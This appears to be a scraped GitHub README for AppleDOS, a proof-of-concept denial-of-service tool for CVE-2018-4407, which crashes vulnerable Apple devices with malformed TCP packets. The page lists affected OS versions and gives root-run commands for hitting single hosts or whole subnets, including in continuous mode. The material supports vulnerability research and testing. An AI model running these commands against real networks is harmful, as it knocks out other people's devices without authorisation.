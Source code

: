 # AppleDOS

Messing Apple devices on the network with CVE-2018-4407 (heap overflow in bad packet handling)

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/farisv](https://github.com/farisv) |
| Url      | [https://github.com/farisv/AppleDOS](https://github.com/farisv/AppleDOS)                                               |
| Stars    | 25                                                          |
| License  | MIT License                                                        |

<details>

<summary>Topic / Tags</summary>

* apple* dos-attack* exploit

</details>

## Readme

# AppleDOS (CVE-2018-4407)

Based on CVE-2018-4407 (https://lgtm.com/blog/apple_xnu_icmp_error_CVE-2018-4407), this [tweet](https://twitter.com/ihackbanme/status/1057811965945376768), and this [video](https://twitter.com/kevin_backhouse/status/1057352656560287746). The bug is heap overflow vulnerability in bad packet handling when OS try to send ICMP message containing segments from bad packet back to the sender.

![](demo.gif)

This POC will crashes the vulnerable Apple devices by sending bad TCP packet data containing long TCP/IP header options to overflow the ICMP message when device try to send out the error message. You need the ability to send network packet data directly to the device (e.g. on the same local network).

The following operating system versions and devices are vulnerable:
- Apple iOS 11 and earlier: all devices
- Apple macOS High Sierra, up to and including 10.13.6: all devices
- Apple macOS Sierra, up to and including 10.12.6: all devices
- Apple OS X El Capitan and earlier: all devices

## WARNING

FOR EDUCATIONAL PURPOSES ONLY. DO NOT USE THIS SCRIPT FOR ILLEGAL ACTIVITIES. THE AUTHOR IS NOT RESPONSIBLE FOR ANY MISUSE OR DAMAGE.

## Example

Make sure you have Python 3 and scapy.

```
pip install scapy
# or
pip3 install scapy
```

You may need to run the script as root.

Send bad packet to 192.168.1.0/24 subnet.

```
sudo ./appledos.py 192.168.1.0/24
```

Shows IP after packet sent.

```
sudo ./appledos.py --verbose 192.168.1.0/24
```

Send bad packet to 192.168.1.0/24 subnet continuously.

```
sudo ./appledos.py --continuous 192.168.1.0/24
```

Change destination port (default: 80). You can change to any port since devices will respond to any incoming packet to any port but you may want to concern about port blocking or firewall in the host or network.

```
sudo ./appledos.py --continuous --port 22 192.168.1.0/24
```

Send bad packet to only one IP.

```
sudo ./appledos.py 192.168.1.118
```

Set maximum workers (default: 100).

```
sudo ./appledos.py --worker 10 192.168.1.0/24
```

## Note

This script is using scapy and it has known issue for handling `/dev/bpf` (Berkeley Packet Filter) when sending packet data from OS like macOS with multi-thread. If you encounter `No /dev/bpf handle is available`, try to reduce the worker number to 1 or 2. Or, you can just use Linux like in the demonstration video.



## Get the content

```
git clone https://github.com/farisv/AppleDOS
cd AppleDOS
```

{% embed url="https://github.com/farisv/AppleDOS" %}

<figure><img src="https://avatars.githubusercontent.com/u/44131180?v=4" alt=""><figcaption><p>farisv</p></figcaption></figure>
